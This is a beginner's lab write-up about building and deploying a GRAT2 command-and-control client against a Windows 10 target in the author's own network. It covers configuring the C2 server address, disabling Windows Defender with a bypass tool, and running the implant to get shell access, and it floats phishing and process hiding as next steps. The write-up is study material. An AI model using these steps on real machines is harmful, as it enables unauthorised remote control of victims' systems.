 ## Command and Control - Ex 1 

This is an exercise presented to me by a mentor which I've recreated to gain an intro in malware propagation and transition.

---
### Environment
This exercise was performed by having both the attack and target machine within the same network.
#### Operating System
Latest kali-VM rolling update (Red)
Windows10 up to date (Red)
Windows 10 up to date (Blue)
#### Tools
GRAT2 - C&C (source: https://github.com/r3nhat/GRAT2)
Bypass-Windows-Defender-VBS (Optional) (source: https://github.com/NYAN-x-CAT/Bypass-Windows-Defender-VBS/security)
Visual Studio 2022 (Community)

---
### Methodology
#### Objectives/Flags
Establish a C&C server on the Kali, Build malware on the Win10(Red) and            propagate the executable to the target Win10(Blue).
#### Reconnaissance
N/A
#### Weaponization 
The first step was to setup up `Visual Studio (2022 Community edition)` on the Win10 (Red) where the client executable will be built. Once installed it was just a matter of installing the necessary addons that would allow projects to be built. This was a struggle as I haven’t had exposure to this IDE and program development. The best way I could describe it was just ensuring I installed the latest dot.Net SDK frameworks (This was mostly done through trial and error of trying to build the executable and working with the errors to find out what was missing)

Once I downloaded and unzipped out the GRAT2 package, I opened `GRAT2_client.sln`. This as I understand it is the project file where we will then open the sub files to configure. My next task was to set the project to point towards my GRAT2 server which will be hosted on the kali.

On the kali I grabbed the local IPv4 address.
```
ifconfig
  192.168.xxx.xxx
```

From there I needed to install the necessary before we get started.
```
pip3 install -r ~/GRAT2-C&C/GRAT2-master/requirements.txt
```

Now we can launch the server on port 80
```
cd ~/GRAT2-C&C/GRAT2-master/GRAT2_Server
  python3 grat2.py 80
```
The server was now up and running and listening for incoming connections.

Moving back to the Win10(Red) we opened Config.cs and modified the control-server address on line 9.
```
~\GRAT2-master\GRAT2_Client
  c2 = "http://192.168.xxx.xxx/"
```
Now the executable was ready to build however I encountered two errors during this process. Firstly, I was receiving an error related to the target dot.NET framework which was expecting an earlier version that what was currently installed. In order remediate this error I needed to find what version I was using and retarget the project to use that later version.
The steps I used to find my version of the framework can be found here: `https://www.windowscentral.com/how-quickly-check-net-framework-version-windows-10`
Now that I found my version, I retargeted the version in the `GRAT2_Cient.csproj`
```
<TargetFrameworkVersion>vX.X</TargetFrameworkVersion>
```
Lastly before I could the project, I needed to disable Windows defender as it was picking up the executable's malicious code. I was pointed towards using the `Bypass-Windows-Defender-VBS` which I mentioned earlier to turn it all off. This however wasn't enough and when I built the project, I needed to specifically allow the executable past defender.
Once the executable was successfully built, I found it here: `~\GRAT2-master\GRAT2_Client\bin\Debug\GRAT2_Client.exe`

#### Delivery
I kept it simple for my first attempt at this exercise simply by coping over the executable from the Win10(Red) to the Win10(Blue), however in future I'd like to experiment different delivery techniques such as having it hosted on a HTTP server running on the kali where I then use phishing to have the target get and run the file on the target machine.

#### Exploitation
N/A
#### Installation 
N/A
#### Command & Control
Once the executable is run on the target machine a blank black console appears which creates a connection to the Grat2 server running on Kali. This can be seen on the Kali as a notice that `hostname` has connected. I imagine this console window can be manipulated to remain hidden and run in the background, possibly under disguised service processes.
#### Actions on Objective
From here we can begin to explore and manipulate the target machine with shell access.
From the Grat2 server:
```
listagents
  help
```
---
### After-action
#### What I've learned
This was the first exposure I've had to a command & control tool. It was a bit of a struggle to get Visual Studio working properly to build it out but once figured out it worked as intended. The code itself was a bit too complex for me to understand immediately but I took away the concept of how a server is run and how a target can be connected to it.
#### What I would've done differently
If I was to come back to this exercise I would like to expand upon the attack-chain to deliver the .exe from my attack machine to the target. Additionally, I would like to find ways to experiment with ways to hide the running executable from users and expand upon the actions on objectives to gain more control/visibility over the target's network. 

